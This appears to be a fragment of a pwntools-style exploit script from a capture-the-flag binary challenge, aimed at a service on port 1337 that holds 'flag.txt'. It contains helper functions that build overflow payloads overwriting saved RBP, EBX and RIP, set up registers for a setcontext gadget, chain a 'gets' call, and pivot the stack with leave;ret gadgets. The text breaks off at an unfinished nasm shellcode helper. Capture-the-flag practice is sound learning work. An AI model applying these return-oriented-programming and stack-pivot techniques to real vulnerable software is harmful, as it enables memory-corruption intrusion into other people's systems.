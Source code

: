 ```python
host = "0.0.0.0"
port = 1337


def craft_payload(RBP, EBX, RIP=0x0000000040101A):
    tmp = fit(
        {
            48: RBP,
            40: EBX,
            88: RIP,
            72: b"flag.txt\x00",
        }
    )
    return tmp


def setup_regs_setcontext(
    BX=0,
    CX=0,
    DX=0,
    DI=0,
    SI=0,
    R8=0,
    R9=0,
    R12=0,
    R13=0,
    R14=0,
    R15=0,
    BP=0,
    SP=0,
    IP=0x0000000040101A,
):
    tmp = fit(
        {
            0: R8,
            8: R9,
            32: R12,
            40: R13,
            48: R14,
            56: R15,
            64: DI,
            72: SI,
            80: BP,
            88: BX,
            96: DX,
            112: CX,
            120: SP,
            128: IP,
        },
        word_size=64,
    )
    return tmp


def gets(addr):
    return flat([pop_rdi, addr, exe.sym["gets"]])


def pivot(addr):
    return flat([p64(pop_rbp), addr - 8, leave_ret])


def nasm(shellcode, arch=None):
```